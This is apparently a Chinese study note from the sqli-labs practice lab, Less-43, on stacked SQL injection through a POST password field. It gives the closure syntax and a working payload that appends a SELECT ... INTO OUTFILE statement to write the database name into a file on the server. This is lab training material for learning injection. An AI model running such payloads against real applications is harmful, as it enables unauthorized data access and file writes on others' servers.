 ![](file/image_RFkJjzzXxv.png)

### Less-43：POST - Error based - string - Stacked with twist

**注入类型**

堆叠注入

**闭合方式**

id=('\$id')

```sql
password=admin');select 'Less-43',database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" #
```

![](file/image_uEsppPUl0Y.png)
